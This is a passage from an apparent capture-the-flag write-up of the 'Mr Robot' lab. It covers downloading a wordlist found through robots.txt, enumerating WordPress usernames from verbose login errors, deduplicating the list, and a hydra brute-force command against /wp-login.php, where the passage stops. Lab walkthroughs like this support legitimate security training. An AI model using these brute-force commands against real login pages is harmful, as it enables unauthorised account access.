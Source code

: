 Accessing `/robots.txt` shows two files are listed, namely `fsocity.dic` and `key-1-of-3.txt`:

![Mr Robot - Robots.txt](/images/mrrobot_robotstxt.png)

Downloading the files:

```console
$ wget http://10.10.90.179/fsocity.dic
$ wget http://10.10.90.179/key-1-of-3.txt
```

Viewing these files we successfully get **key 1** and a dictionary which we can use against the login form at `/wp-login.php`.

Navigating to `/wp-login.php`, we see we have fairly verbose error messaging when we input credentials:

![Mr Robot - Verbose Errors](mrrobot_verbose_errors.png)

This means we can use this to infer the username as it will likely produce a different error message as it would be valid. Now we capture a request in BurpSuite in order to get the parameters required for the bruteforce.

![Mr Robot - BurpSuite Request](/images/mrrobot_burpsuite_request.png)

In particular, `log=admin&pwd=admin&wp-submit=Log+In` are the parameters we need.

In addition, before we bruteforce, we need to create a new list by filtering down the original `fsocity.dic`, removing all the duplicate entries.

```console
# Count lines in dictionary file
$ cat fsocity.dic | wc -l
858160

# Count lines in filtered dictionary file
$ cat fsocity.dic | sort | uniq | wc -l
11451

# Output filtered content to new file
$ cat fsocity.dic | sort | uniq > fsocity_filtered.dic
```

Now, we use `hydra` to bruteforce the login page for the username:

```console
$ hydra -L fsocity_filtered.dic -p test <VICTIM IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username' -t 30
```
